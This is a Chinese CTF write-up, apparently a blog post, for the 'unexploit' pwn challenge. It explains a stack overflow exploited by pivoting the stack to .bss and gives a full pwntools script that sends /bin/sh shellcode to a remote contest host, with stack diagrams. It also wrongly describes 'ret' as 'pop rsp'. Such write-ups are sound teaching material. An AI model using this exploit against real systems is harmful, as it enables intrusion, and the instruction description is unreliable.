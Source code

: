 ```yaml
---
layout: post
title: 安恒杯-unexploit
category: pwn
tags: [pwn]
---
```


## Checksec unexploit

![img](/assets/images/2019-08-05-unexploit/unexploit2.png)

没开保护，NX没开，第一时间想到的就是写shellcode进去。

## ida分析

![img](/assets/images/2019-08-05-unexploit/unexploit1.png)

有一个栈溢出漏洞，但是只有**0x20**的空间。因此，可以用**栈迁移**。

## 一些汇编指令
```
leave:
    1.mov rsp,rbp   #将rsp指向rbp
    2.pop rbp   #将栈中保存的父栈帧的 %rbp 的值赋值给 %rbp，并且 %rsp 上移一个位置指向父栈帧的结尾处。
retn:
    pop rsp   #将当前的ESP中指向的地址出栈，JMP到这个地址。
```
**所以我们可通过覆写rbp来使栈迁移到bss段去，并利用read函数去写入shellcode，再去执行shellcode。**

## 先给出Exp
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

p = remote('101.71.29.5',10015)
#p = process('./unexploit')

elf = ELF('unexploit')
read_addr = 0x40068A
bss_addr = elf.bss()

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

payload1 = 'a'*8+p64(bss_addr-8)+p64(read_addr)+p64(0xdeadbeef)
payload2 = 'a'*8+p64(bss_addr+8)+p64(read_addr)+p64(0xdeadbeef)
payload3 = p64(bss_addr+8)+shellcode

p.send(payload1)
p.send(payload2)
p.send(payload3)
p.interactive()
```
### payload1
    mov rsp,rbp:
                        +-------------+
                        |  aaaaaaaa   |
                        +-------------+  
            rsp、rbp +->+  bss-0x8    |
                        +-------------+
                        |  read_addr  |
                        +-------------+
                        |  0xdeadbeef |
                        +-------------+

    pop rbp:
            +-------------+          +-------------+
            |  aaaaaaaa   |          |             |
            +-------------+          +-------------+
            |  bss-0x8    |    rbp+->+  bss-0x8    |
            +-------------+          +-------------+
      rsp+->+  read_addr  |          |  bss_start  |
            +-------------+          +-------------+
            |  0xdeadbeef |          |             |
            +-------------+          +-------------+

    pop rsp: 返回到read函数。

### payload2   
    mov rsp,rbp
    pop rbp:
                    +-------------+
                    |  aaaaaaaa   |
                    +-------------+
                    |  bss+0x8    |
                    +-------------+
              rsp+->+  read_addr  |<-+bss-start
                    +-------------+
              rbp+->+  0xdeadbeef |
                    +-------------+

    pop rsp:返回到read函数。

### payload3
    mov rsp,pbp
    pop rbp:
            +-------------+
            |  aaaaaaaa   |
            +-------------+
            |  bss+0x8    |
            +-------------+
            |  bss+0x8    |<-+bss-start
            +-------------+
      rsp+->+  shellcode  |
            +-------------+

    pop rsp:执行shellcode



